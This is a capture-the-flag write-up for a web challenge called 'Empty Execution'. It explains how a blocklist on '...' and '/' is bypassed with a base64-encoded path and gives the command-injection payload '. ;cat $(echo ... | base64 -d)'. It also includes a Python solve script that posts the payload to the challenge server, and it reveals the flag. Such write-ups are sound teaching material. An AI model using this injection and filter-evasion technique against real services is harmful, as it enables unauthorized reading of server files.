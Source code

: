 ```yaml
---
CTF: Braeker CTF
Category: web
Points: -1
Date: 2024-02-23
Solved?:
---
```

----
### TL;DR

Folder itself is an executable, so starting with `.` and hiding path to the flag.txt in plain base64 will do the trick.

**Flag**

```
brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}
```


### Details

From Dockerfile we can find, that flag.txt path 
![[Pasted image 20240224205604.png]]

so, it's  `/usr/src/app/flag.txt`

For restrictions, we can't use `...` and `/` 
![[Pasted image 20240224210004.png]]
It's a plain check, so we can bypass it via endocing folder path in base64

`/usr/src/app/flag.txt` -> `L3Vzci9zcmMvYXBwL2ZsYWcudHh0`

As mentioned before, folder itself is an executable, so combining all these together we got payload:

```python
. ;cat $(echo 'L3Vzci9zcmMvYXBwL2ZsYWcudHh0' | base64 -d)
```

and is equal to

```bash
. ;cat /usr/src/app/flag.txt
```

After running solve.py we got our flag
![[Pasted image 20240224210414.png]]

---
### Appendix

solve.py

```python
"""
Baeker CTF
Cat: Web
Chall: Empty Execution
"""

import requests as rq
from typing import NoReturn


def main() -> NoReturn:
	payload: dict = {'command': ". ;cat $(echo 'L3Vzci9zcmMvYXBwL2ZsYWcudHh0' | base64 -d)"}
	link: str = "https://braekerctf-empty-execution.chals.io/run_command"
	
	print(rq.post(link, json=payload).text)


if __name__ == '__main__':
	main()
```